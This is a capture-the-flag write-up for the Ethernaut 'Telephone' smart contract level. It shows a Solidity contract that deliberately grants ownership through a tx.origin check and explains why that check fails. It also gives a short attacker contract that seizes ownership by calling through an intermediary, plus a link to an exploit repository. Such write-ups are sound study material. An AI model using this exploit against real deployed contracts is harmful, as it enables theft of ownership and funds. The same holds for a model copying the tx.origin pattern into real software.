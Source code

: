### TASK
Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


### Vulnerabilities $ Recommendation:

1. One should never use tx.orign for authorization/authentication because it's vulnerable to phishing attack. it is vulnerable because it can be easily spoofed by a malicious user, leading to security vulnerabilities. This can allow an attacker to execute code as if they were a trusted user, potentially leading to unauthorized access to sensitive information or funds. 

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```
tx.origin will always return the address that have created a transaction <br/>
msg.sender will return the address who made the last external call.     Who sends or invoke a function. <br/>

Here, the "tx.origin" check in the "changeOwner" function is not a proper security measure as it can be bypassed by malicious contracts.
It's recommended to avoid using tx.origin in smart contract development and instead use a more secure alternative, such as msg.sender.


2. Use the "require" statement to ensure that the new owner is not the same as the existing owner, before changing the owner.


#### Attack Telephone Contract

```solidity
contract Hack {
    function transferTelephoneOwnership(Telephone _instanceAddress, address _newOwner) public {
        Telephone tel = Telephone(_instanceAddress);
        tel.changeOwner(_newOwner);
    }
}

```

Link to Exploit Repo: https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/Telephone.t.sol